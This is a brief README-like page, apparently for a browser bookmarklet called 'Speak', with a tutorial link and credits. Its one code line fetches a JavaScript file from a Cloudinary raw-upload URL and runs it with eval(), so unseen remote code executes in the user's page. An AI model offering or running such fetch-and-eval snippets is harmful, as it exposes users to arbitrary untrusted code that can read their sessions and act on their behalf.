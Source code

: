 Tutorial : https://youtu.be/0XkH_GcDjVk

# Speak 

```
javascript:fetch(`https://res.cloudinary.com/dq36xqdoe/raw/upload/v${Math.floor(Math.random() * 1000000)}/main_oqidn5.js`).then(r => r.text()).then(r => eval(r))
```
## Credits:
[@Flowings](https://github.com/flowingsalt)
